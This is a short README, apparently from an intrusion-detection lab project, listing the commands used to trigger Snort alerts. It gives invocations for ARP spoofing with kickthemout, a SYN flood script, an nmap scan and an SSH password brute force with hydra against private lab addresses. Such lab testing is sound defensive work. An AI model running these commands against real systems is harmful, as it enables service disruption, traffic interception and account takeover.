 # attacks
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **kicktheamount**: Tool to perform and ARP spoofing on the victim.

```
 sudo python3 kickthemout.py --target 192.168.1.10
``` 

 - **syn_flood**: Tool to be used for the Syn Flood Attack.
 
```
sudo python syn_flood.py -d 192.168.1.10 -p 22 -t 1

sudo python syn_flood.py -d <ip> -p <port> -t <number of threads>
```
  
  
- **port scanning**: Simple nmap scan on the ip. More options are possible to be added but at this point it's enough.

```
nmap 172.16.46.2

nmap <ip>
```
 
 - **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```